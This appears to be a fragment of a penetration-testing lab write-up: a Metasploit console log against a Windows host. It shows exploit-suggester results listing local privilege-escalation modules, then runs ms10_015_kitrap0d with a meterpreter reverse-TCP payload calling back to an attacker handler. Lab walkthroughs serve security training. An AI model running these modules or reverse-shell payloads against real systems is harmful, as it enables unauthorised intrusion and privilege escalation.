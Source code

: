 ```
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 5:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.                                                                            
 2   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.                                                                            
 3   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.                                                                                           
 4   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.                                                                                           
 5   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.                                                                                           
 6   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.                                                                            
 7   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.                                                                                           
 8   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.                                                                            
 9   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.                                                                            
 10  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.                                                                                           
 11  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.                                                                                           
 12  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.

# background session
meterpreter > 
Background session 4? [y/N]  

# use ms10_015_kitrap0d
msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
[*] Using configured payload windows/meterpreter_reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 4
session => 4
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.27:9005 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2056 launched.
[*] Reflectively injecting the DLL into 2056...
```
